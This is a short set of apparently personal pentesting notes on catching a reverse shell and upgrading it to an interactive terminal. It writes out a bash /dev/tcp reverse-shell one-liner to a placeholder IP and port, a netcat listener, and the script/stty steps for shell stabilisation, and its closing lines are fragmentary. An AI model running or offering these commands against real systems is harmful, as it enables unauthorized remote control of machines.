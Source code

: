 
Interesting observation where a user upgraded the usability of their shell. Allows for the ability to up arrow prev commands.

```
`bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'

nc -nvlp 80


script -qc /bin/bash /dev/null
[CTRL+Z]

stty raw -echo; fg
			reset xterm


echo $TERM

export TERM=xterm
```

script not found?
- doing this without will severly mess up your terminal by offsetting text
- 


auto